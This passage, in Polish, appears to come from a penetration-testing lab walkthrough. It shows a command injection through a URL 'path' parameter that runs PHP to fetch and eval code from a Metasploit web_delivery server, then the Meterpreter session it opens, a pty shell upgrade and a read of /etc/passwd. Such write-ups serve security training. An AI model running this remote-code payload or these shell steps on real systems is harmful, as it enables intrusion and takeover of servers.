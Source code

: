 ```console
php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.16.1.10:8080/xIXYouzGVsN', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```
Należy kod, co poda nam Metasploit wrzucic jako parametr w linku. W moim wypadku jest taki. U was zapewn będzie inny:
{: .text-justify}
<div class="notice--primary" markdown="1">
php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.16.1.10:8080/xIXYouzGVsN', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```bash
http://172.16.1.218/index.php?path=/;php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.16.1.10:8080/xIXYouzGVsN', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```
</div>
Mamy sesję:
{: .text-justify}
```console
[*] 172.16.1.218     web_delivery - Delivering Payload (1112 bytes)
[*] Sending stage (39282 bytes) to 172.16.1.218
[*] Meterpreter session 1 opened (172.16.1.10:4444 -> 172.16.1.218:48918) at 2021-08-12 20:48:25 +0200

msf6 exploit(multi/script/web_delivery) > sessions

Active sessions
===============

  Id  Name  Type                   Information            Connection
  --  ----  ----                   -----------            ----------
  1         meterpreter php/linux  www-data (33) @ host1  172.16.1.10:4444 -> 172.16.1.218:48918 (172.16.1.218)
```
# Kontenery
Należy pamiętać, że jest to kontener **LXD** i nie możemy z niego wyjść, ale przeglądarkę możemy zamknąć. Sesja powinna być utrzymana:
{: .text-justify}
## host1
```console
meterpreter > getuid
Server username: www-data (33)
meterpreter > shell
Process 37317 created.
Channel 0 created.
bash -i
bash: cannot set terminal process group (203): Inappropriate ioctl for device
bash: no job control in this shell
www-data@host1:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Możemy trochę pogrzebać w **Shellu**:
```console
www-data@host1:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```
